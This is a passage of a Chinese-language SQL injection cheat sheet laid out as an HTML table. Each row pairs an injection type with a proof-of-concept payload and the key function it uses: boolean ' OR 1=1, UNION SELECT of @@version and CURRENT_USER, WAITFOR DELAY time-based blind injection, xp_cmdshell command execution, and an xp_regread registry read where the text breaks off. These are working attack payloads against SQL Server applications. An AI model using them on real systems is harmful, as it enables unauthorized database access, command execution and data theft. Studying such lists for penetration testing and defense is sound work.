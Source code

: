<table><tbody><tr><td data-colwidth="97" width="97" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">注入类型</span></font></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="309" width="309" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">POC示例</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="212" width="212" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">关键函数</span></font><font face="方正小标宋_GBK"><span leaf="">/特性</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="97" width="97" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">布尔检测</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="309" width="309" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; OR 1=1; --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="212" width="212" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">;语句分隔符</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="97" width="97" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">联合查询</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="309" width="309" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT @@version, CURRENT_USER --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="212" width="212" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">@@version, CURRENT_USER</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="97" width="97" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">时间盲注</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="309" width="309" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39;; WAITFOR DELAY &#39;0:0:5&#39; --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="212" width="212" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">WAITFOR DELAY</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="97" width="97" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">文件读取</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="309" width="309" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39;; EXEC xp_cmdshell &#39;dir C:\&#39; --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="212" width="212" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">xp_cmdshell（需启用）</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="97" width="97" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">注册表操作</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="309" width="309" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39;; EXEC xp_regread &#39;HKEY_LOCAL_MACHINE&#39;,